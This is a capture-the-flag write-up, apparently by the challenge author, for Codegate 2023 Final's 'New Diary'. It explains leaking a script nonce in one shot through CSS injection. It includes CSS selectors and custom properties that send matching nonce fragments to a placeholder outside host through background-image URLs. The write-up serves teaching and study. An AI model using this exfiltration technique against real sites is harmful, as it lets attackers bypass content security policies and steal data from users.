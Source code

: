 # New Diary
This is the unintentional solution for Codegate 2023 Final.
The original challenge uses the back-forward cache in browsers to leak 1 byte nonce each time. In this challenge, we narrow the limitation so that you only have one shot to leak all nonce by add `no-cache`.

## Solution
You can find many blogs on the Internet. I don't want to write again :).

## About CSS leakage
In this official writeup, I just want to emphasize the key point: CSS leakage.

It is well-known that we can use the CSS `background-image` to load the URL and leak the nonce. There are only two solutions on the Internet since the time I wrote this challenge:

- Leak one byte nonce and regenerate the CSS.
- https://d0nut.medium.com/better-exfiltration-via-html-injection-31c72a2dae8b

None of these could work since we only have one shot and we cannot control the server where the CSS file are hosted.

**Interestingly, This challenge was made in August with no similar methods on the Internet. However, in September, another independent security researcher in SonarSource published almost the same [solution](https://www.sonarsource.com/blog/code-vulnerabilities-leak-emails-in-proton-mail/). This greatly reduced the difficulty of this challenge :(.**

## About CSS matcher
Another problem in this challenge is how to match the nonce in CSS. You cannot simply use `script[nonce*="aaa"] {background-image: xxx}` since chrome will only render the final matched attribute, which means only the later one can work:
```
script[nonce*="aaa"] {background-image: aaa}
script[nonce*="aab"] {background-image: aab}
```

There are several ways in others' writeup. But I use the custom attributes to achieve this:
```
script[nonce*="aaa"] {
    --xaaa: url(http://x/x?a=aaa) !important;
}
script[nonce*="aab"] {
    --xaab: url(http://x/x?a=aab) !important;
}

script {
    --xaaa: url("/");
    --xaab: url("/");
    background-image: var(--xaaa), var(--xaab);
}
```
All matched attributes will override the default URL in this example.